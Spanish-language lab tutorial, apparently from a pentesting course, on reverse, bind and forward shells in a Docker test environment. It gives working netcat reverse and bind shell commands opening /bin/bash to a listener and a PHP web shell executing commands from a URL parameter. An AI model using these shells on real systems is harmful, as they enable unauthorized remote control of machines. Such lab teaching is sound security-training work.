 En esta clase, veremos las diferencias entre Reverse Shell, Bind Shell y Forward Shell:

- **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante entender las diferencias entre estas técnicas para poder determinar cuál es la mejor opción en función del escenario de ataque y las limitaciones de la red.

## Crear Entorno en Docker
### Crear un Docker file
```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
#### Ejecutar 
```bash
## Contruir Imagen
docker build -t my_image .

## Construir contenedor
docker run -dit -p 80:80 --cap-add=NET_admin --name myContainer my_image

## Ejecutar contenedor
docker exec -it myContainer bash 
```
## Reverse Shell 
```bash
## Maquina Atacante
nc -nlvp 443

## Maquina Victima
ncat -e /bin/bash <IP-Atacante> <PORT>
# Ejemplo 👇
ncat -e /bin/bash 172.17.0.1 443

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```
## Bind Shell
```bash
## Maquina Victima
ncat -nlvp 443 -e /bin/bash

## Maquina Atacante
nc <IP-Victima> <PORT>

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```

## **📊 Diferencias Clave**

| Característica                              | Reverse Shell | Bind Shell  |
| ------------------------------------------- | ------------- | ----------- |
| **Quién inicia la conexión**                | La víctima    | El atacante |
| **Necesita que el atacante abra un puerto** | ✅ Sí          | ❌ No        |
| **Fácil de usar detrás de un firewall/NAT** | ✅ Sí          | ❌ No        |
| **Riesgo de detección en la víctima**       | 🔥 Alto       | ⚠️ Medio    |
## Forward Shell

- Podemos crear un archivo `cmd.php` para tener ejecución remota de comandos.
```php
<?
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
- Este archivo lo podemos poner en la ruta del servidor como: `/var/www/html`
- Logramos la ejecución de comandos cuando en la URL ponemos: 
	`http://localhost/cmd.php?cmd=<COMANDO>`

